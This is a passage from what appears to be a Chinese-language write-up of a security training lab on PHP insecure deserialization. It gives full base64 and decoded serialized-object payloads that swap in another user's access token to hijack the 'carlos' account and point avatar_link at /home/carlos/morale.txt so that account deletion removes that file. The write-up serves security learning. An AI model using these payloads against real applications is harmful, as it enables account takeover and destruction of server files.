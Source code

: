 实际传入的 `$user->access_token` 是 `cu2u0zik9nkmf6y5tiucvs0g9oia2qot`，导致验证失败。

`$access_tokens` 数组包含三个令牌：

```
$access_tokens = [
  'ibwhanrv502uul64mzn35af5n54o1z1v',  // 用户 carlos 的令牌
  'p4b76bemzfk4t07wubzd5rr1bnpk8el8',  // 其他用户
  'cu2u0zik9nkmf6y5tiucvs0g9oia2qot'   // 其他用户
];
```



将 Cookie 中的 token 替换为 carlos 的 token 后重新发送 HTTP 请求，成功登录 carlos 账户。

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYndoYW5ydjUwMnV1bDY0bXpuMzVhZjVuNTRvMXoxdiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30%3D
```

```
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"ibwhanrv502uul64mzn35af5n54o1z1v";s:11:"avatar_link";s:19:"users/carlos/avatar";}
```

![image-20250317131118418](./images/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20250317131118418.png)



使用浏览器触发 Delete account 操作，通过 Burp Suite 拦截请求，获取 URL 路径，然后丢弃请求以防止账户被删除。

```
POST /my-account/delete HTTP/2
```



对象 **avatar_link** 属性存储用户头像存储的路径，当使用删除账号功能时，服务器会将用户的头像（即 **avatar_link** 属性中路径的文件）删除。只需要将 **avatar_link** 属性的内容设置为 **/home/carlos/morale.txt** ，服务器在删除用户时会一并删除该文件。

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYndoYW5ydjUwMnV1bDY0bXpuMzVhZjVuNTRvMXoxdiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

```
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"ibwhanrv502uul64mzn35af5n54o1z1v";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
